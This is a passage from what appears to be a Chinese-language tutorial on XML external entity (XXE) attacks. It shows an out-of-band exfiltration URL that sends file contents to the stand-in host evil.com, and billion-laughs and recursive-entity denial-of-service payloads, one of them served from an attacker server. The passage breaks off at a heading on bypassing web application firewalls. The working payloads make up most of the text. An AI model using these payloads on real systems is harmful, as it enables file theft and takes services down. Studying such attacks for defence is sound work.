 发出的ftp:// url格式也可以使用username:password的形式。

```
ftp://%b:password@evil.com:8000
```

但是显而易见这要求`%b`这个文件内容中不包含`:`不然就会，格式报错。所以还是前者比较好



### DOS攻击

经典的用于DoS的xml文件样例如下，原理为构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中,这个在其他编程语言或者JDK版本较低的Java中可利用，但在高版本JDK的环境中会报错中断解析：

![](img/2.png)

当然，这种类型的DoS攻击也支持参数实体的方式。将dos.xml修改如下：

```xml
<!DOCTYPE data SYSTEM "http://vps/dos.dtd" [
<!ELEMENT data (#PCDATA)>
]>
<data>&tea;</data>
```

在攻击者服务器放置dos.dtd：

```xxe
<!ENTITY % a0 "dos" >
<!ENTITY % a1 "%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;%a0;">
<!ENTITY % a2 "%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;%a1;">
<!ENTITY % a3 "%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;%a2;">
<!ENTITY % a4 "%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;%a3;">
<!ENTITY tea "%a4;" >
```

当然还可以通过递归来造成dos

```xxe
<!DOCTYPE data [
<!ENTITY a "a&b;" >
<!ENTITY b "&a;" >
]>
<data>&a;</data>
```

引用位于网上或本地的一个大文件让解析器解析一个 **巨大的 XML 文件**从而导致DoS

## 绕waf可用姿势

### 协议绕过
